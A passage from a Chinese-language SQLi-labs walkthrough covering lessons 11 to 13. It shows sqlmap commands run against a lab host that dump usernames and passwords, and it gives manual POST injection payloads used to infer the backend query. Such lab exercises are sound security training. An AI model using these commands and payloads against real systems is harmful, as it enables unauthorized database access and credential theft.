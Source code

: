 ```CMD
python sqlmap.py -u "http://10.12.202.251:22699/Less-11/"  --forms --dbs
```

![image-20211207203030597](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020058707.png)

接下来的命令和GET型差不多，只是需要多加`--forms`参数：

```
python sqlmap.py -u "http://10.12.202.251:22699/Less-11/"  --forms -D security --tables
```

```
python sqlmap.py -u "http://10.12.202.251:22699/Less-11/"  --forms -D security -T users --columns
```

```
python sqlmap.py -u "http://10.12.202.251:22699/Less-11/"  --forms -D security -T users -C "id,username,password" --dump
```

![image-20211207203335516](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020058182.png)



## 实验十二	基于错误的双引号POST型字符变形注入

输入`uname=admin"`产生报错回显，看到有`)`，猜测后台语句为：`SELECT username, password FROM 用户表 WHERE username=("input") and password=("input")  ;`

![image-20211207203501349](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020058251.png)

构造poc进行验证：

`uname=admin") and 1=1#`有回显

![image-20211207203703495](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020058134.png)

`uname=admin") and 1=2#`无回显，证明猜想正确。

![image-20211207203741861](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020058591.png)

之后的步骤同实验11，只要把`uname=admin'`换成`uname=admin”)`即可



## 实验十三	POST 单引号变形双注入

输入`admin`&`admin`无正确回显。

输入`admin'`有报错回显：`near 'admin') LIMIT 0,1' at line 1`，猜测后台语句：`SELECT username, password FROM 用户表 WHERE username=('input') and password=('input');`

![image-20211207204051533](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020058490.png)

构造poc：`admin ') or 1=1 #`，没有任何显示，说明猜想正确。

![image-20211207204315576](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207020059975.png)
